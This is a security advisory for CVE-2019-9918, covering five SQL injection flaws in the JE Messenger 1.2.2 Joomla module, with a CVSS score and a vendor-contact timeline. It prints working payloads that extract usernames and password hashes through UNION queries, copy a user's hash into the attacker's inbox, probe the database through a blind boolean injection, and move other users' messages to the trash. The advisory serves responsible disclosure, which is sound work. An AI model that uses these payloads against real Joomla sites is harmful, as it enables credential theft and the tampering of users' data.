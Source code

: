 # CVE-2019-9918

## Affected software
JE Messenger 1.2.2 Joomla Module by Harmis Technology.

## What: SQL-Injection
Multiple SQL-Injections allows reading or writing arbitrary information from all tables/to specific tables of the database/ of the module. 

## Meta
During the preparation of one of our incident response exercises, one of our CERT Members (Tobias Roggenhofer) detected an unexpected behavior of the Joomla Module JE Messenger of Harmis Technology in its current version (1.2.2). Due to this behavior, we started analyzing this module and detected several vulnerabilities.

We informed the software-vendor that we have detected vulnerabilities in their module. Sadly a secure communication to share the details could not be established.

Since we still want to disclose our findings in a responsible way, we only announced the type of vulnerability and the associated risk in the first step on the 2019-03-29. This gives the software vendor time to patch the plugin or user the time to move to another plugin or temporarily disable it. Since 2019-05-01 we've published more details including some payloads.

## CVSS
CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:L/A:N : 8.5 (High)

## Detailed description
The module has no protection against SQL-Injections. It passes the user input directly in the SQL-Querys. So each of them is potentially vulnerable to SQL-Injections. We found five concrete injection-points, which can be abused by an attacker. 

### 1: Move foreign messages to trash
An SQL-Injection vulnerability inside the delete function of the inbox allows any user to move arbitrary message from the inbox into the trash.

In this example we an message from user2 to user3 inside the inbox of user3. By hovering over the message we see in the link the parameter 'cid[0]', which has the value 60. This means this message has the internal message id 60. 
![Intercepted request of the ajax function](/CVEs/CVE-2019-9918_1.1.png)

In this example user1 will now delete this message from the inbox of user3. Therefore we selects one of his messages for deletion, but before we press the "Delete" button we start an interception proxy to intercept the request. 
![Intercepted request of the ajax function](/CVEs/CVE-2019-9918_1.2.png)
![Intercepted request of the ajax function](/CVEs/CVE-2019-9918_1.3.png)

Now we are able to inject some SQL code inside the query. To move the message of user3 with the id 60 we can use the following example code:
```
'60') or id IN ('60'
```
This code has to be inserted in the parameter 'cid%5B%5D='. 
Note: In general the attack needs to exploit other vulnerabilities to get the right message id, if he wants to move a specific and not a random one. 
![Intercepted request of the ajax function](/CVEs/CVE-2019-9918_1.4.png)

After sending the manipulated query the message 60 is now in the Trash folder of user3
![Intercepted request of the ajax function](/CVEs/CVE-2019-9918_1.4.png)

### 2: Delete foreign messages from the trash folder 
An SQL-Injection vulnerability inside the delete function of the Trash allows any user to delete arbitrary message from the trash. This vulnerability is almost identical to the first SQL-Injection. The steps how to inject and the payload are all the same. The only difference is, that you have to call the delete function in the trash instead of that one in the inbox.

### 3: Read from the database (ajax-lookup-query)
There is an SQL-Injection vulnerability in the compose page, which allows an attacker to read arbitrary information from the local database. The vulnerability is located in the backend for an ajax function, that automatically searches suitable users based on the input of the "to" field. 

In this example we show how this vulnerability can be abused to read out the local usernames and password hashes.
At first we use the vulnerability to read out the name of the usertable, because in general we don't know the individual table-prefix of this joomla page. 
Therefore we start an interception-proxy and type one letter inside the "To" field. This triggers the ajax function and sends the request shown in the picture below. 
![Intercepted request of the ajax function](/CVEs/CVE-2019-9918_3.1.png)

Now we replace the value of the parameter 'input' with the following injection code
```
Irrelevant-what-is-standing-here') union (SELECT '1', '2', TABLE_NAME, '4', '5', '6', '7', '8', '9', '10', '11', '12', '13', '14', '15', '16' FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME LIKE '_____users' OR TABLE_NAME LIKE '______users') union (SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9', '10', '11', '12', '13', '14', '15', '16
```
Because this is an URL-Parameter, we need to char encode the payload first. 
```
%49%72%72%65%6c%65%76%61%6e%74%2d%77%68%61%74%2d%69%73%2d%73%74%61%6e%64%69%6e%67%2d%68%65%72%65%27%29%20%75%6e%69%6f%6e%20%28%53%45%4c%45%43%54%20%27%31%27%2c%20%27%32%27%2c%20%54%41%42%4c%45%5f%4e%41%4d%45%2c%20%27%34%27%2c%20%27%35%27%2c%20%27%36%27%2c%20%27%37%27%2c%20%27%38%27%2c%20%27%39%27%2c%20%27%31%30%27%2c%20%27%31%31%27%2c%20%27%31%32%27%2c%20%27%31%33%27%2c%20%27%31%34%27%2c%20%27%31%35%27%2c%20%27%31%36%27%20%46%52%4f%4d%20%49%4e%46%4f%52%4d%41%54%49%4f%4e%5f%53%43%48%45%4d%41%2e%54%41%42%4c%45%53%20%57%48%45%52%45%20%54%41%42%4c%45%5f%4e%41%4d%45%20%4c%49%4b%45%20%27%5f%5f%5f%5f%5f%75%73%65%72%73%27%20%4f%52%20%54%41%42%4c%45%5f%4e%41%4d%45%20%4c%49%4b%45%20%27%5f%5f%5f%5f%5f%5f%75%73%65%72%73%27%29%20%75%6e%69%6f%6e%20%28%53%45%4c%45%43%54%20%27%31%27%2c%20%27%32%27%2c%20%27%33%27%2c%20%27%34%27%2c%20%27%35%27%2c%20%27%36%27%2c%20%27%37%27%2c%20%27%38%27%2c%20%27%39%27%2c%20%27%31%30%27%2c%20%27%31%31%27%2c%20%27%31%32%27%2c%20%27%31%33%27%2c%20%27%31%34%27%2c%20%27%31%35%27%2c%20%27%31%36
```
![Injection in the request](/CVEs/CVE-2019-9918_3.2.png)

The tablename will now be shown in the gui for a short time or you can extract it directly from the response
![Tablename in the gui](/CVEs/CVE-2019-9918_3.3.png)
![Tablename in the response](/CVEs/CVE-2019-9918_3.3.png)

With the knowledge of the tablename we can now extract the usernames and password hashes, with the same method and the following payload. (replace the [Prefix] in the query. in our case it is 'ecsbi')
```
Irrelevant-what-is-standing-here') union (SELECT '1', '2', username, password, '5', '6', '7', '8', '9', '10', '11', '12', '13', '14', '15', '16' FROM [Prefix]_users) union (SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9', '10', '11', '12', '13', '14', '15', '16
```
![Injection in the request](/CVEs/CVE-2019-9918_3.5.png)
![Credentials in the response](/CVEs/CVE-2019-9918_3.3.png)

### 4: Insert message with information from the database
An SQL-Injection in the compose page allows an user to send messages to him self, that contains information from the Database.

In this example we read the password hash of user3 as user1. Let us assume that we already know the table name prefix(ecsbi) and the user-id of user3(767).
At first, we create a simple message. Before sending we start an interception-proxy and intercept the message.
![Ordinary message](/CVEs/CVE-2019-9918_4.1.png)
![Intercepted Message](/CVEs/CVE-2019-9918_4.2.png)

Now we replace the value of the 'subject' parameter with the following payload, while 766 is our user-id and 767 is the user-id of user3.
```
pw of user3',
(SELECT password from ecsbi_users WHERE id=767),
766,
766,
'1999-12-12',
'00:00:00',
'',
''),('','subject2
```
![Payload insterted](/CVEs/CVE-2019-9918_4.3.png)

After sending the crafted message, we have an message in our inbox. It contains the passwordhash of user3.
![Payload insterted](/CVEs/CVE-2019-9918_4.4.png)

### 5: Blind injection, read via update command
There is an blind SQL injection in the move command, that allows an attacker to read information from the database. Because this injection is very time-consuming if you execute it manual, we only show how it works in principle. Further we assume that we already know the table name prefix(ecsbi) and the user-id of user3(767).
In this example we select an message in the inbox, move it to the inbox and intercept the request with an interception proxy. ![Move the message](/CVEs/CVE-2019-9918_5.1.png)
![Intercepted move request](/CVEs/CVE-2019-9918_5.2.png)

In this example we want to read the out the passwordhash of user3. The problem with this injection is, that it doesn't display any values. Instead, it only shows if an condition is true or false. So the following injection code can be used to iterate over the passwordhash and check if the ASCII value of a char is higher or low a specific value. It has to be injected into the 'select' parameter.
```
Inbox", `read`=((SELECT ascii(substring((SELECT `password` FROM `[User_table]` WHERE id = [user-id]),[character number of the string],1)) > [possible ascii value of the string ])),`fromemail`="
```
![Craftet move request](/CVEs/CVE-2019-9918_5.3.png)

If the message is now unread(bold), the condition is false. If it is read now, the condition is true.

## Timeline
* 2019-03-05: Contacted vendor, request for encrypted communication
* 2019-03-06: Request from vendor to tell affected product (no encryption)
* 2019-03-06: Provided Module-Name (no encryption)
* 2019-03-06: Further contact with vendor, sadly still no encryption
* 2019-03-13: Reminder, deadline set for 18th of March for a response (no encryption)
* 2019-03-19: No response, reserving CVEs, planned release on 2019-04-01
* 2019-03-22: MITRE informs us that 5 CVEs are reserved 
* 2019-03-29: Publishing basic information, informing MITRE and vendor
* 2019-05-01: Publishing full vulnerability details
